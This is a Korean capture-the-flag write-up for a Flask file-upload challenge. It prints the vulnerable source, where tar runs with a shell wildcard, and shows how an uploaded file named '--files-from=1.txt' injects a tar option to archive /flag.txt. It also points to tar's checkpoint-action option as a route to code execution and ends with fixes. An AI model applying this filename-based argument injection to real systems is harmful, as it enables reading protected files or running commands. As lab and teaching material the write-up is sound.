

# EFS



# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | EFS |
| 주차 | 9주차 |
| 분야 | Web · 파일 업로드 / 외부 명령 인수 처리 |
| 접속 주소 | `http://localhost:5000` |
| 플래그 형식 | `FLAG{...}` |

# 1. 문제 요약

- os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *")
- shell에서 * 처리에서 option injection이 발생
- file 이름을 변경해 원하는 파일을 압축해서 다운로드

---

# 2. 문제 분석

- 전체코드
    
    ```bash
    from flask import Flask, session, redirect, request, flash, send_file, url_for, render_template, send_from_directory
    import os
    
    app = Flask(__name__)
    app.secret_key = os.urandom(32)
    SESS_BASE_DIR = "/tmp/uploads"
    if not os.path.isdir(SESS_BASE_DIR): 
        os.mkdir(SESS_BASE_DIR)
    ALLOWED_EXTENSIONS = {'txt', 'pdf', 'doc', 'docx', 'xls', 'xlsx'}
    
    def allowed_file(filename):
        return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
    
    def normalize_file(filename): 
        return filename.replace("..", "_")
    
    def create_session(sess_id):
        sess_dir=os.path.join(SESS_BASE_DIR,sess_id)
        if not os.path.isdir(sess_dir): os.mkdir(sess_dir)
    
    def list_files(sess_id): 
        return os.listdir(os.path.join(SESS_BASE_DIR,sess_id))
    
    @app.route('/')
    def index():
        if "ID" not in session:
            sess_id=os.urandom(32).hex(); 
            session["ID"]=sess_id;
            create_session(sess_id)
        files=[]
        for file in list_files(session["ID"]): 
            files.append({"name":file,"url":"/dl/"+session["ID"]+"/"+file})
        return render_template("index.html",files=files)
    
    @app.route("/upload.html")
    def upload_html():
        if "ID" not in session: 
            return redirect("/")
        return render_template("upload.html")
    
    @app.route("/dl/<string:sess_id>/<string:file_name>")
    def dl(sess_id,file_name):
        path=os.path.join(SESS_BASE_DIR,normalize_file(sess_id),normalize_file(file_name))
        if os.path.exists(path): 
            return send_file(path)
        flash("File does not exist."); 
        return redirect(url_for(index))
    
    @app.route('/download_all')
    def download_all():
        if "ID" not in session: return redirect("/")
        sess_id=session["ID"]; 
        sess_dir=os.path.join(SESS_BASE_DIR,sess_id)
        res=os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *") #여기 os.system이 일단 문제 같은데 sess_dir이 /를 가리키게
        if res != 0: 
            flash("Something went wrong.");
            return redirect("/")
        return send_file(f"/tmp/{sess_id}.tgz",download_name=f"{sess_id}.tgz",as_attachment=True)
    
    @app.route('/upload',methods=["POST"])
    def upload():
        if "ID" not in session: 
            return redirect("/")
        if 'file' not in request.files: 
            flash('No file part'); 
            return redirect("/")
        file=request.files['file']
        if file.filename=='': 
            flash('No file selected'); 
            return redirect(request.url)
        if file and allowed_file(file.filename):
            f_content=file.stream.read()
            if len(f_content)>1024: 
                flash("Your file is too big! Buy premium to upload bigger files!"); 
                return redirect('/')
            filename=normalize_file(file.filename)
            with open(os.path.join(SESS_BASE_DIR,session["ID"],filename),"wb") as f: 
                f.write(f_content)
            return redirect("/")
        flash("Invalid file type submitted!"); return redirect('/')
    
    @app.route('/static/<path:p>')
    def staticfiles(p): return send_from_directory("static",p)
    if __name__=='__main__': app.run()
    
    ```
    

주요 코드

```bash
flask -- /dl/<string:sess_id>/<string:file_name> 파일 보는 엔드
			 - /download_all <- sink 있고 다운로드 받는 
			 - /upload
			 - /static/<path:p>
```

```bash
@app.route('/download_all')
def download_all():
    if "ID" not in session: return redirect("/")
    sess_id=session["ID"]; 
    sess_dir=os.path.join(SESS_BASE_DIR,sess_id)
    res=os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *") 
    if res != 0: 
        flash("Something went wrong.");
        return redirect("/")
    return send_file(f"/tmp/{sess_id}.tgz",download_name=f"{sess_id}.tgz",as_attachment=True)

```

### option injection

*의 처리에 대해서 봐야됨 

*는 쉘에서 해당 디렉토리 내에 모든 파일로 명령 전달 예를 들어 

```bash
hello.txt
test.pdf
abc.txt

ls * -> ls abc.txt hello.txt test.pdf

res=os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *") 
여기서 파일 이름에 -를 통해 옵션을 추가 가능 '--file-from=x.txt  '
```

### tar 옵션

- **`c` (create)**: 새로운 아카이브 파일을 생성합니다.
- **`x` (extract)**: 아카이브 파일을 해제(추출)합니다.
- **`t` (list)**: 아카이브 파일에 포함된 목록을 확인합니다.
- **`v` (verbose)**: 압축 또는 해제 진행 과정을 화면에 상세히 출력합니다.
- **`f` (file)**: 사용할 아카이브 파일 이름을 지정합니다 (가장 필수적인 옵션).
- **`C` (directory)**: 압축을 풀거나 묶을 때 대상 경로(디렉터리)를 지정합니다
- `-files-from=FILE`FILE에 적힌 파일 목록을 읽음
- `-directory=DIR`처리 기준 디렉터리 변경 (`-C`)
- `-checkpoint=N`N개 레코드마다 체크포인트 처리← 코드 실행
- `-checkpoint-action=ACTION`체크포인트에서 지정한 동작 수행
- `-verbatim-files-from`목록 파일의 내용을 옵션으로 해석하지 않음

---

# 3. 풀이과정

### 1. 1.txt 내용 작성 및 업로드

```bash
/flag.txt
```

### 2. 파일 이름을 —files-from=1.txt로 작성해 —files-from=1.txt이걸 옵션으로 넣음


```bash
res=os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz --files-form=1.txt 1.txt") 

```

### 3. 압축파일 확인


---

# 4. 보안조치

- `os.system()` 사용 제거
- 파일명 검증
- 파일 접근 권한 검증

---

# 5. 기록

- os.path.join(SESS_BASE_DIR,session["ID"],filename)에서 절대 경로로 filename이 된다면 절대경로만 반환

